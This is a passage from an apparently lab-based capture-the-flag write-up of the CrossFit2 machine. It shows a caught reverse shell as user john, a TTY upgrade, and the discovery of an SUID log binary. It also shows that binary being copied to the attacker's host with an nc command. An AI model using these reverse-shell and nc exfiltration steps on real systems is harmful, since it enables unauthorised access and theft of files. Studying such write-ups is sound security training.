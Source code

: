 After about a minute we get a shell on our listener as john which we upgrade using python.

```php
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:23188.
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
crossfit2$ python3 -c 'import pty;pty.spawn("/bin/sh")'
crossfit2$ export TERM=xterm
export TERM=xterm
crossfit2$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

crossfit2$ id
uid=1005(john) gid=1005(john) groups=1005(john), 20(staff), 1003(sysadmins)
```

## LogReader

john is in the staff group and looking for files belonging to this group we find the  `/usr/local/bin/log` binary.

```php
crossfit2$ find / -group staff 2>/dev/null
/usr/local/bin/log
```

Taking a closer look at it we see it has the suid bit set which makes it very interesting.

```php
crossfit2$ ls -la /usr/local/bin/log
-rwsr-s---  1 root  staff  9024 Jan  5  2021 /usr/local/bin/log
```

For further examination we transfer the file over to our local machine using ncat and check the file hashes once the transfer is completed to ensure nothing got corrupted.

```php
$ nc -lnvp 43212 > log
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::43212
```

```php
crossfit2$ nc 10.10.14.65 43212 < /usr/local/bin/log
```

```php
$ nc -lnvp 43212 > log
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::43212
Ncat: Listening on 0.0.0.0:43212
Ncat: Connection from 10.129.68.20.
Ncat: Connection from 10.129.68.20:43781.
^C
```
